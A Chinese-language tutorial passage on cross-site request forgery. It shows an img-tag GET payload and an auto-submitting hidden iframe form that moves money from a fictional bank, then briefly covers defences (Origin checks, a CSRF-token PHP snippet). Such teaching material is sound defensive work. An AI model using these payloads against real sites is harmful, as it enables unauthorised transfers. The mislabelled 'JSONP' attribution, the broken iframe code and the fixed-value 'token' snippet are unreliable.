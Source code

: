 ## 7.2.示例1
银行网站A，它以GET请求来完成银行转账的操作，如：http://www.mybank.com/Transfer.php?toBankId=11&money=1000
危险网站B，它里面有一段HTML的代码如下：
<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
首先，你登录了银行网站A，然后访问危险网站B，噢，这时你会发现你的银行账户少了1000块......
利用了jsonp的跨域漏洞

## 7.3.示例2
银行网站A，它现在改为以POST请求来完成银行转账的操作，
然后危险网站B也改了，它的代码如下：

```
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```

利用iframe的跨域漏洞

## 7.4.防范
### 7.4.1.origin字段
检查ajax的origin字段

### 7.4.2.csrf令牌

```
<?php
　　　//构造加密的Cookie信息
　　　$value = “DefenseSCRF”;
　　　setcookie(”cookie”, $value, time()+3600);
　?>
```
